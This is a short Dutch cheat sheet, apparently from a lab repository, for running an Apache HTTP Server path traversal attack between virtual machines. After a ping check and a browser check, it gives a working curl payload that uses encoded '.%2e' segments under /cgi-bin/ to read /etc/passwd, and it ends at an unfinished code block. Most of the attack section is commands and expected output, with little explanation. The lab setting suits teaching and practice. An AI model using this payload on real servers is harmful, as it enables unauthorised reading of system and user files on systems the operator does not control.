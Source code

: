 # Cheat sheet aanval van Apache HTTP server path traversal

Voor het uitvoeren van de aanval van Apache HTTP server path traversal zijn de volgende stappen nodig:

Stap 1: Contolleer of de VM's met elkaar kunnen communiceren

```bash
ping <ip-van-de-server>
PING 192.168.0.254 (192.168.0.254) 56(84) bytes of data.
64 bytes from 192.168.0.254: icmp_seq=1 ttl=64 time=3.43 ms
64 bytes from 192.168.0.254: icmp_seq=2 ttl=64 time=0.419 ms
64 bytes from 192.168.0.254: icmp_seq=3 ttl=64 time=0.423 ms
```

Stap 2: Controleer of de Apache HTTP server draait op de server

Surf van de Kallio VM naar de Apache HTTP server VM en controleer of de server draait. Dit kan gedaan worden door in de browser het IP adres van de server in te voeren. Als de server draait, zou je een welkomstpagina moeten zien.

![Site zichtbaar](img/cybersecuritysite.png)

Stap 3: Path Traversal aanval uitvoeren

Gebruik de volgende curl command om de path traversal aanval uit te voeren:

```bash
curl -v --path-as-is http://<ip>:80/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

Als je deze command uitvoert, zou je de inhoud van het bestand /etc/passwd moeten zien. Dit bestand bevat informatie over de gebruikers op het systeem.

```bash